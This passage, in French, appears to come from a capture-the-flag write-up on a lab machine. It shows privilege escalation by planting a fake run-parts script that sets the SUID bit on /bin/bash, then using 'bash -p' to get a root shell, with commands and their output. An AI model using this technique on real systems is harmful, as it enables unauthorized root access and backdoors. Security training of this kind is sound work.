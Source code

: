 ### Exploitation

Création du binaire piégé :

```bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

Déconnexion et reconnexion SSH :

```bash
exit
ssh jkr@10.10.10.138
```

Vérification :

```bash
ls -l /bin/bash
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-700 dark:text-green-300">
        -rwsr-xr-x 1 root root 1099016 ... /bin/bash
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Le bit SUID est maintenant défini sur /bin/bash !
    </p>
</div>

## 👑 Phase 8 — Escalade vers root

### Exécution avec privilèges préservés

Lancement de bash avec l'option `-p` (preserve privileges) :

```bash
/bin/bash -p
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        <strong>ROOT SHELL OBTENU !</strong> euid=0(root) atteint.
    </p>
</div>
